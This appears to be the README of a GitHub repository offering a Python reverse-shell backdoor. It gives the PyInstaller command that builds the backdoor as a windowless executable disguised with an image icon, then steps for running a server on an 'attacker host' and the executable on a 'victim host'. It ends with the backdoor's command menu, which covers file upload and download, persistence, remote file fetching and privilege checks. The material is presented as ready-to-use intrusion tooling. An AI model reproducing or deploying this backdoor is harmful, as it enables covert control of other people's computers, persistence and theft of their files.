# backdoors
Basic scripts and reverse shell programs

## Reverse Shell

### Compile
The backdoor [reverse_shell.exe](/reverse_shell/dist/) is compiled using pyinstaller:  
```
python -m PyInstaller reverse_shell.py --onefile --noconsole --add-data="assets/image.jpg;." --icon=assets/image.ico
```

### Usage
1. Edit the ```host``` variable on both server.py and reverse_shell.py, setting the **(IP, port)** of the host that will run the ```server.py``` 
2. Recompile the reverse_shell.py  
3. Start ```server.py``` on the attacker host  
4. Start ```reverse_shell.exe``` on victim host
5. On server, type ```help``` to show commands instructions

```
* Shell#~('127.0.0.1', 57029): help
Available functions:
- cd {path} => change host directory
- download {file} => Download a file from host
- upload {file} => Upload a file to the host
- persistence => Try acquiring persistence
- get {url} => Download a remote file
- isadmin => Check user privileges
- exit => quit the service
```

To quit the backdoor, type the command ```exit```